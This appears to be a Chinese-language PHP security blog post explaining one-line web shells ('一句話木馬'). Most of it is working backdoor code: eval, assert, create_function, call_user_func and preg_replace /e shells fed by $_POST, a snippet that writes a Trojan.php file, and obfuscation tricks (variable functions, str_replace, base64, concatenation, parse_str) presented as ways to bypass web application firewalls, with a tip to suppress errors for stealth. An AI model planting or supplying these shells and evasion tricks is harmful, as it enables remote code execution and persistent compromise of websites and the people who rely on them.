 ```yaml
---
layout: post
title: "[PHP]一句話木馬"
date: 2018-12-18 00:25:20 +0800
categories: [php,web,security]
tags: [php,web,security]
---
```


## 什麼是一句話木馬

**一句話木馬就是只需要一行代碼的木馬，短短一行代碼，就能做到和大馬相當的功能。為了繞過waf的檢測，一句話木馬出現了無數中變形，但本質是不變的：木馬的函數執行了我們發送的命令。**

**我們如何發送命令，發送的命令如何執行？
我們可以通過`GET` 、`POST` 、`COOKIE`這三種方式向一個網站提交數據，一句話木馬用`$_GET[' ']`、`$_POST[' ']`、`$_COOKIE[' '] `接收我們傳遞的數據，並把接收的數據傳遞給一句話木馬中執行命令的函數，進而執行命令。
所以看到的經典一句話木馬大多都是只有兩個部分，一個是可以執行代碼的函數部分，一個是接收數據的部分。**
例如：
```php
<?php eval(@$_POST['a']); ?>
```
其中eval就是執行命令的函數，`$_POST['a']`就是接收的數據。 eval函數把接收的數據當作PHP代碼來執行。這樣我們就能夠讓插入了一句話木馬的網站執行我們傳遞過去的任意PHP語句。這便是一句話木馬的強大之處。

---

### **使用 其他函數製作一句話木馬**

#### **assert函數**
```php
<?php assert(@$_POST['a']); ?>
```
---

#### **create_function函數**
```php
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>
```

把用戶傳遞的資料形成一個函數fun()，然後再執行fun()

---

#### **call_user_func回調函數**
```php
<?php
@call_user_func(assert,$_POST['a']);
?>
```

`call_user_func`這個函數可以呼叫其它函數，被呼叫的函數是`call_user_func`的第一個函數，被呼叫的函數的參數是`call_user_func`的第二個參數。
<br />
這樣的一個語句也可以完成一句話木馬。一些被waf攔截的木馬可以配合這個函數繞過waf。

---

#### **preg_replace函數**
```php
<?php
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
```

這個函數原本是利用正則表達式替換符合條件的字符串，但是這個函數有一個功能——可執行命令。這個函數的第一個參數是正則表達式，按照PHP的格式，表達式在兩個"/"之間。如果我們在這個表達式的末尾加上"e"，那麼這個函數的第二個參數就會被當作代碼執行。

---

#### **file_put_contents函數**

#### 利用函數生成木馬

```php
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```
函數功能：產生一個文件，第一個參數是文件名，第二個參數是文件的內容。

---

### 讓一句話木馬繞過waf


#### **PHP變數函數**
```php
<?php
$a = "eval";
$a(@$_POST['a']);
?>
```
第三行使用了變數函數$a，變數儲存了函數名eval，便可以直接用變數替代函數名。

---

#### **PHP可變變數**
```php
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>
```

看這句就能理解上述語句：`$$aa = $($aa) = $ (‘bb’) = $bb = "eval"`

---

#### **str_replace函數**
```php
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

函數功能：在第三個參數中，查找第一個參數，並替換成第二個參數。這裡第二個參數為空字符串，就相當於刪除"Waldo"。

---

#### **base64_decode函數**
```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

這裡是base64解密函數，"ZXZhbA=="是eval的base64加密。

---

### **"."操作符號**
```php 
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```
---

### **parse_str函數**
```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```
執行這個函數後，生成一個變數$a，值為字符串"eval"

---

### **更多技巧...**
`多實戰，多Google！`

上述六種技巧每一種單獨使用都不能繞過waf，但是與 第三大點提到的函數混合起來使用，就可以順利的欺騙waf。
`tips：使用一句話木馬的時候可以在函數前加”@”符，這個符號讓php語句不顯示錯誤信息，增加隱蔽性。`

---

### **再來一個小栗子**
```php
<?php
function fun()
{return $_POST['a'];}
@preg_replace("/test/e",fun(),"test test test");
?>
```
這裡又有一個技巧，創建函數 fun()，返回post中"a"的數據。

資料來源<br />
[PHP之一句話木馬](https://xz.aliyun.com/t/2786)